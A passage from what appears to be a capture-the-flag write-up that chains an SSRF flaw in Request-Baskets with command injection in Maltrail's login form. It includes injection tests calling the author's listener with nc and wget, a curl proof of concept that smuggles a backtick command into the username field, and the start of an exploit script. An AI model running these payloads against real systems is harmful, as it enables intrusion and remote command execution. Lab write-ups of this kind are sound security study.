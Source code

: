 ```python
            requests.exceptions.ConnectTimeout) as e:
        print(e)
    except KeyboardInterrupt as e:
        print("Exiting...")
        break
```

I tried several commands to test the injection (including the URL-encoded version of each), such as `nc 10.10.14.4 4444` and `wget http://10.10.14.4:8000`. I didn't get any evidence that the command executed. What could be wrong? To investigate, I tried the actual login page and proxied the request through Burp:

![ssrf attempt 4](ssrf%20attempt%204.png)

Oh, I see: First of all, it's posting to `/login`. Also, there's a hash with a nonce. Thankfully, since it's only the password field that isn't present in the request, there's a good chance that  the hash was only taken for the password. If this is true, sending the same hash every time should be fine, as long as the server isn't actually checking for a unique nonce :eyes:...  Also, it probably makes sense to URL-encode the whole command.

> :scream: I also realized that I forgot to include backticks in the command! No wonder nothing was running. I'm not sure if adding the nonce/hash was useful, but the rest of the modifications seemed to work.

To accommodate these discoveries, I modified the script into the following **<u>final</u>** version:

```python
#!/bin/python3

'''
Chain together exploits to two vulnerabilities:

Vulnerability #1: CVE-2023-27163
    Inspiration from gist at https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3
    PoC: 
        POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}
        details can be seen: https://notes.sjtu.edu.cn/s/MUUhEymt7
     
Vulnerability #2:
    Unauthenticated OS Command Injection in stamparm/maltrail
    See https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
    PoC:
        curl 'http://hostname:8338/login' --data 'username=;`id > /tmp/bbq`'
     
'''

import requests
import argparse
import urllib.parse

parser = argparse.ArgumentParser(                                                                 
    prog='exploit.py',
    description='Exploit the SSRF vulnerability in Request-Baskets (v1.2.1 or earlier), then the command injection vulnerability in Maltrail (v0.54 or earlier)',
    epilog='Author: 4wayhandshake')

parser.add_argument('target', help='The URL of the target, Ex. "http://10.10.11.224:55555")', type=str)
parser.add_argument('forward', help='Forward URL, Ex. "http://127.0.0.1:80")', type=str)
parser.add_argument('basket', help='The ID of the basket to use (Ex. "geto2km")', type=str)

args = parser.parse_args()

```